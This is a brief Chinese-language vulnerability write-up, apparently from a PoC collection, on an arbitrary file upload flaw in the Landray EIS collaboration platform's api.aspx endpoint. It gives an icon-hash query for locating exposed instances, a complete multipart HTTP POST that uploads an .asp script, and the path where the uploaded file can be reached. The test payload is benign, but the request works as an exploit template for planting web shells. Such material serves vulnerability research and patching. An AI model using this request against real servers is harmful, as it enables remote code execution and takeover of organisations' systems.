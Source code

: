 # 

# 蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞

## 漏洞描述

蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

蓝凌EIS 智慧协同平台

## 网络测绘

```
icon_hash="953405444"
```

## 漏洞复现

登陆页面

![image-20231116141557650](images/image-20231116141557650.png)

poc

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Content-Length: 219
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html

<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--
```

![image-20231116141617020](images/image-20231116141617020.png)

```
/files/editor_img/xxx/xxx.asp
```


